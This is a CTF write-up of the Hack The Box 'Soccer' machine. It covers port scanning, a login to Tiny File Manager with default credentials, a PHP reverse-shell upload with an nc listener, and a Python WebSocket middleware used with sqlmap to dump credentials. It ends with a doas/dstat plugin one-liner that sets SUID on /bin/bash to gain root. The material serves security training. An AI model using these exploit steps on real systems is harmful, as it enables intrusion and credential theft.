




# Soccer
* **POINTS**: 20
* **USER RATING**: Easy
* **OPERATING SYSTEM**: Linux
* **RATING**: 4.5

## 1. Recon
```bash
─$ nmap -sC -sV -oA nmap/initial 10.10.11.194
Starting Nmap 7.92 ( https://nmap.org ) at 2023-05-05 05:34 EDT
Nmap scan report for 10.10.11.194
Host is up (0.12s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
|_  256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Fri, 05 May 2023 09:34:28 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff                                                                              
|     Content-Type: text/html; charset=utf-8                                                                       
|     Content-Length: 143                                                                                          
|     Date: Fri, 05 May 2023 09:34:28 GMT                                                                          
|     Connection: close                                                                                            
|     <!DOCTYPE html>                                                                                              
|     <html lang="en">                                                                                             
|     <head>                                                                                                       
|     <meta charset="utf-8">                                                                                       
|     <title>Error</title>                                                                                         
|     </head>                                                                                                      
|     <body>                                                                                                       
|     <pre>Cannot OPTIONS /</pre>                                                                                  
|     </body>                                                                                                      
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9091-TCP:V=7.92%I=7%D=5/5%Time=6454CD9A%P=x86_64-pc-linux-gnu%r(inf
SF:ormix,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\
SF:n\r\n")%r(drda,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x2
SF:0close\r\n\r\n")%r(GetRequest,168,"HTTP/1\.1\x20404\x20Not\x20Found\r\n
SF:Content-Security-Policy:\x20default-src\x20'none'\r\nX-Content-Type-Opt
SF:ions:\x20nosniff\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nCon
SF:tent-Length:\x20139\r\nDate:\x20Fri,\x2005\x20May\x202023\x2009:34:28\x
SF:20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=
SF:\"en\">\n<head>\n<meta\x20charset=\"utf-8\">\n<title>Error</title>\n</h
SF:ead>\n<body>\n<pre>Cannot\x20GET\x20/</pre>\n</body>\n</html>\n")%r(HTT
SF:POptions,16C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Poli
SF:cy:\x20default-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nC
SF:ontent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r
SF:\nDate:\x20Fri,\x2005\x20May\x202023\x2009:34:28\x20GMT\r\nConnection:\
SF:x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<met
SF:a\x20charset=\"utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Ca
SF:nnot\x20OPTIONS\x20/</pre>\n</body>\n</html>\n")%r(RTSPRequest,16C,"HTT
SF:P/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Policy:\x20default-sr
SF:c\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nContent-Type:\x20t
SF:ext/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\nDate:\x20Fri,\x
SF:2005\x20May\x202023\x2009:34:28\x20GMT\r\nConnection:\x20close\r\n\r\n<
SF:!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<meta\x20charset=\"ut
SF:f-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Cannot\x20OPTIONS\x
SF:20/</pre>\n</body>\n</html>\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad\
SF:x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2F,
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r
SF:(DNSStatusRequestTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnecti
SF:on:\x20close\r\n\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:nConnection:\x20close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\nConnection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.76 seconds
```

### 1.1 TCP 80
#
There is an active service on port 80 ! 



Let’s Enumerate the directories with `dirb`. 

```bash
└─$ dirb http://soccer.htb/ /home/asd/Scaricati/SecLists/Discovery/Web-Content/SVNDigger/all-dirs.txt 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri May  5 05:42:20 2023
URL_BASE: http://soccer.htb/
WORDLIST_FILES: /home/asd/Scaricati/SecLists/Discovery/Web-Content/SVNDigger/all-dirs.txt

-----------------

GENERATED WORDS: 5947                                                          

---- Scanning URL: http://soccer.htb/ ----
+ http://soccer.htb/?? (CODE:200|SIZE:6917)                                                                       
+ http://soccer.htb/???? (CODE:200|SIZE:6917)                                                                     
+ http://soccer.htb/????? (CODE:200|SIZE:6917)                                                                    
+ http://soccer.htb/??? (CODE:200|SIZE:6917)                                                                      
==> DIRECTORY: http://soccer.htb/tiny/                                                                            
+ http://soccer.htb/??????? (CODE:200|SIZE:6917)                                                                  
+ http://soccer.htb/?????? (CODE:200|SIZE:6917)                                                                   
+ http://soccer.htb/? (CODE:200|SIZE:6917)                                                                        
                                                                                                                  
(!) FATAL: Too many errors connecting to host
    (Possible cause: URL MALFORMAT)
                                                                               
-----------------
END_TIME: Fri May  5 05:54:09 2023
DOWNLOADED: 5688 - FOUND: 7
```

Now we see the `/tiny` endpoint.

<p align="center">
  
</p>

I searched for information on `tiny file manager` and I found the [Github repository](https://github.com/prasathmani/tinyfilemanager) where it is reported that the default credentials are:

    Default username/password: admin/admin@123 and user/12345

So I logged in with them.

<p align="center">
  
</p>

## 2. RCE
The most important thing that we can see is the possibility to upload files



We can upload a [Reverse Shell](https://github.com/Cyberw1ng/Bug-Bounty/blob/main/rev_shell.php) and we can open a listener in local with `nc` and get the reverse connection visiting the url with an endpoint like this (`/uploads/<shell_name>`).

```bash
└─$ nc -nvlp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.11.194 43674
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 09:55:19 up  2:00,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off   
```

After a little search, I found an interesting file in `/etc/nginx/sites-enabled`.

```bash
ww-data@soccer:/etc/nginx/sites-enabled$ ls
ls
default  soc-player.htb
www-data@soccer:/etc/nginx/sites-enabled$ cat soc-player.htb
cat soc-player.htb
server {
        listen 80;
        listen [::]:80;

        server_name soc-player.soccer.htb;

        root /root/app/views;

        location / {
                proxy_pass http://localhost:3000;
                proxy_http_version 1.1;
                proxy_set_header Upgrade $http_upgrade;
                proxy_set_header Connection 'upgrade';
                proxy_set_header Host $host;
                proxy_cache_bypass $http_upgrade;
        }

}
```

The file provide a subdomain that I added in `/etc/hosts`.


There are some options but the most interesting is what the site say when visit the `Match` page.

<p align="center">
  
</p>

Let’s Sign up and Login.

<p align="center">
  
</p>

## 3. SQLInjection

Now we have the ticket but the interesting thing is that it provides an input box where it is possible to check the available ids and this suggests a possible SQLInjection. This assumption is strengthened by analyzing the source code where a new WebSocket connection to the server is established at the URL "`ws://soc-player.soccer.htb:9091`".

```html
<script>
        var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
        
        var btn = document.getElementById('btn');
        var input = document.getElementById('id');
        
        ws.onopen = function (e) {
            console.log('connected to the server')
        }
        input.addEventListener('keypress', (e) => {
            keyOne(e)
        });
        
        function keyOne(e) {
            e.stopPropagation();
            if (e.keyCode === 13) {
                e.preventDefault();
                sendText();
            }
        }
        
        function sendText() {
            var msg = input.value;
            if (msg.length > 0) {
                ws.send(JSON.stringify({
                    "id": msg
                }))
            }
            else append("????????")
        }
        }
        
        ws.onmessage = function (e) {
        append(e.data)
        }
        
        function append(msg) {
        let p = document.querySelector("p");
        // let randomColor = '#' + Math.floor(Math.random() * 16777215).toString(16);
        // p.style.color = randomColor;
        p.textContent = msg
        }
    </script>
```

After these considerations I googled how a SQLInjection could be done with WebSockets and the first result is an [article](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) which provides details and the following exploit (suitably modified):

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

And I used in combo with [SQLMap](https://sqlmap.org/) with the following command:

    sqlmap -u http://localhost:8081/?id=1 --dump-all --exclude-sysdbs

```bash
[07:18:27] [INFO] fetching entries for table 'accounts' in database 'soccer_db'
[07:18:27] [INFO] fetching number of entries for table 'accounts' in database 'soccer_db'
[07:18:27] [INFO] retrieved: 1
[07:18:38] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
player@player.htb
[07:27:33] [INFO] retrieved: 1324
[07:29:19] [INFO] retrieved: PlayerOftheMatch2022
[07:38:28] [INFO] retrieved: player
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+

[07:41:23] [INFO] table 'soccer_db.accounts' dumped to CSV file '/home/asd/.local/share/sqlmap/output/localhost/dump/soccer_db/accounts.csv'
[07:41:23] [INFO] fetched data logged to text files under '/home/asd/.local/share/sqlmap/output/localhost'
[07:41:23] [WARNING] your sqlmap version is outdated
```

After a while, SQLMap found `soccer_db` with some credentials which I used to connect via SSH and get the user flag.

```bash
player@soccer:~$ ls
user.txt
player@soccer:~$ cat user.txt 
820da1d6ee3b0f084dc4ed999de201b4  
```

## 4. User to ROOT
After trying `sudo -l` to no avail, I loaded and ran [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) which pointed to the presence of files with interesting permissions, especially `doas`.

<p align="center">
  
</p>

**BACKGROUND**
    
    OpenDoas is a portable version of OpenBSD's doas command, known for being substantially smaller in size compared to sudo. Like sudo, doas is used to assume the identity of another user on the system.

So, as you can also read in the [hacktricks article](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#doas) I consulted the `doas` configuration file which shows that the "player" can execute the command `/usr/bin/dstat` as root. 

```bash
player@soccer:~$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

Searching the system for `dstat`, I found the directory which contains all the plugins (written in Python) it uses.

```bash
player@soccer:~$ ls /usr/share/dstat
__pycache__              dstat_disk_wait.py   dstat_innodb_buffer.py    dstat_mongodb_stats.py        dstat_nfs3_ops.py    dstat_rpcd.py          dstat_top_bio.py          dstat_top_mem.py     dstat_wifi.py
dstat.py                 dstat_dstat.py       dstat_innodb_io.py        dstat_mysql5_cmds.py          dstat_nfsd3.py       dstat_sendmail.py      dstat_top_bio_adv.py      dstat_top_oom.py     dstat_zfs_arc.py
dstat_battery.py         dstat_dstat_cpu.py   dstat_innodb_ops.py       dstat_mysql5_conn.py          dstat_nfsd3_ops.py   dstat_snmp_cpu.py      dstat_top_childwait.py    dstat_utmp.py        dstat_zfs_l2arc.py
dstat_battery_remain.py  dstat_dstat_ctxt.py  dstat_jvm_full.py         dstat_mysql5_innodb.py        dstat_nfsd4_ops.py   dstat_snmp_load.py     dstat_top_cpu.py          dstat_vm_cpu.py      dstat_zfs_zil.py
dstat_condor_queue.py    dstat_dstat_mem.py   dstat_jvm_vm.py           dstat_mysql5_innodb_basic.py  dstat_nfsstat4.py    dstat_snmp_mem.py      dstat_top_cpu_adv.py      dstat_vm_mem.py
dstat_cpufreq.py         dstat_fan.py         dstat_lustre.py           dstat_mysql5_innodb_extra.py  dstat_ntp.py         dstat_snmp_net.py      dstat_top_cputime.py      dstat_vm_mem_adv.py
dstat_dbus.py            dstat_freespace.py   dstat_md_status.py        dstat_mysql5_io.py            dstat_postfix.py     dstat_snmp_net_err.py  dstat_top_cputime_avg.py  dstat_vmk_hba.py
dstat_disk_avgqu.py      dstat_fuse.py        dstat_memcache_hits.py    dstat_mysql5_keys.py          dstat_power.py       dstat_snmp_sys.py      dstat_top_int.py          dstat_vmk_int.py
dstat_disk_avgrq.py      dstat_gpfs.py        dstat_mongodb_conn.py     dstat_mysql_io.py             dstat_proc_count.py  dstat_snooze.py        dstat_top_io.py           dstat_vmk_nic.py
dstat_disk_svctm.py      dstat_gpfs_ops.py    dstat_mongodb_mem.py      dstat_mysql_keys.py           dstat_qmail.py       dstat_squid.py         dstat_top_io_adv.py       dstat_vz_cpu.py
dstat_disk_tps.py        dstat_helloworld.py  dstat_mongodb_opcount.py  dstat_net_packets.py          dstat_redis.py       dstat_test.py          dstat_top_latency.py      dstat_vz_io.py
dstat_disk_util.py       dstat_ib.py          dstat_mongodb_queue.py    dstat_nfs3.py                 dstat_rpc.py         dstat_thermal.py       dstat_top_latency_avg.py  dstat_vz_ubc.py
```

Using the information obtained, I have:
- created a Python file which, using the `os` module, adds the SUID to `/bin/bash`;
- run the program as root via `doas`;
- ran the `bash -p` command to be root and get the flag.

```bash
player@soccer:~$ echo 'import os; os.system("chmod u+s /bin/bash")' > /usr/local/share/dstat/dstat_getshell.py
player@soccer:~$ doas -u root /usr/bin/dstat --getshell
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
Module dstat_getshell failed to load. (name 'dstat_plugin' is not defined)
None of the stats you selected are available.
-bash-5.0$ bash -p
bash-5.0# id
uid=1001(player) gid=1001(player) euid=0(root) groups=1001(player)
bash-5.0# cat /root/root.txt
e6660e87d2d2d69877af0dccc32e0258
```